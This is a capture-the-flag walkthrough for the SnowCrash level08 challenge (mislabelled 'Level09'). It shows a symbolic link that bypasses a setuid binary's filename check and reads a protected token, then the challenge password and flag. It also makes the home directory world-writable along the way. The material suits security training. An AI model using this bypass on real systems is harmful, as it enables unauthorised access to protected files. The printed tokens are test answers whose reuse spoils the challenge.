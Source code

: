 # Level09

# context

after login with user `level08` to files apears in home dir
```
level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$
```

# steps to repreduce

first thing let's run the executeable and see what doing
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$
```

so this need a file as an arg, let's pass second file as arg

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$
```

I don't have access to `token` file,

I need to create new file to test the output.
```
level08@SnowCrash:~$ chmod 777 . <== so I can create files in home dir
level08@SnowCrash:~$ echo "hello world" > test
level08@SnowCrash:~$ ./level08 test
hello world
level08@SnowCrash:~$
```

as you can see the file reads the content of the file and print it.
so I need a way so i can read the `token` file.

one of the methods I want to use is to create Symbolic Link to the `token` file so I can read it
```
level08@SnowCrash:~$ ln -s token getflag
level08@SnowCrash:~$
```

now let's pass the link to `level08` file
```
level08@SnowCrash:~$ ./level08 getflag
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$
```
this is the token of `flag08`
```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$
```
